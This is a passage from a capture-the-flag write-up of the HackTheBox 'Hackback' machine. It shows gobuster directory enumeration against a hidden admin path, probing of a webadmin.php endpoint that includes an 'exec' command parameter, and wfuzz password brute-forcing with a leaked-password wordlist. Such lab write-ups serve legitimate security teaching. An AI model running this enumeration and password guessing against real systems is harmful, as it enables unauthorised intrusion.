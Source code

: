 ![](/assets/images/htb-writeup-hackback/js_variables.png)

So based on the hidden message, there's a secret directory `/2bb6916122f1da34dcd916421e531578` that should allow us to get access. When I tried to access that directory, I got a 302 redirect instead of a 404 so I knew this was a valid directory.

Next I used gobuster to look for any ASP or PHP page in that directory:

```
# gobuster -q -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php,asp,aspx -u http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578
/. (Status: 200)
/webadmin.php (Status: 302)
```

If I just browse to `/2bb6916122f1da34dcd916421e531578/webadmin.php` I get a 302 back to the main page. I checked out the different parameters found in the js file and noted the following:

1. The `list` action requires the `site` parameter set.

2. If we put an invalid `site` parameter we get a `Wrong target!` error mesasge

3. If we put an invalid `password` parameter we get a `Wrong secret key!` error message

4. The `init` action expects a `session` parameter but return a `Wrong identifier!` when we try a random value

5. The `exec` action returns a `Missing command` error message. I guessed that it's expecting a `command` or `cmd` parameters. Adding `cmd` returns a `Exited x` message when we issue a command, where x = the length of the command sent. I couldn't figure out if any command was being executed or not. I tried some sleep commands to see if anything was being executed but I always got the message back without any delay. I figured this was probably a troll from the Donkeys team so I moved on.

The next thing I did was fuzz the `password` parameter:

```
# wfuzz -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt "http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=list&site=hackthebox&password=FUZZ"

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=302      0 L	       3 W	     17 Ch	  "123456"
000002:  C=302      0 L	       3 W	     17 Ch	  "12345"
000003:  C=302      0 L	       3 W	     17 Ch	  "123456789"
000004:  C=302      0 L	       3 W	     17 Ch	  "password"
000005:  C=302      0 L	       3 W	     17 Ch	  "iloveyou"
000006:  C=302      0 L	       3 W	     17 Ch	  "princess"
```